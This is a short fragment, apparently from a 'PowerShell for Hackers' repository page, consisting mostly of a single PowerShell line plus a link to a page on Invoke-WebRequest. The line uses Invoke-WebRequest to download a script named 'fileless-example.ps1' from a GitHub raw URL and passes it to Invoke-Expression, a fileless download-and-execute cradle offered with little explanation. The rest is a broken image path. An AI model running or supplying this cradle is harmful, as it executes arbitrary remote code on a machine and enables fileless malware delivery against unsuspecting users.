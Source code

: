$pl = iwr https://raw.githubusercontent.com/faz1241543245398645/PS4Hackers/main/fileless-example.ps1?dl=1; invoke-expression $pl


[read here](https://github.com/I-Am-Jakoby/PowerShell-for-Hackers/blob/main/Functions/Invoke-WebRequest.md)
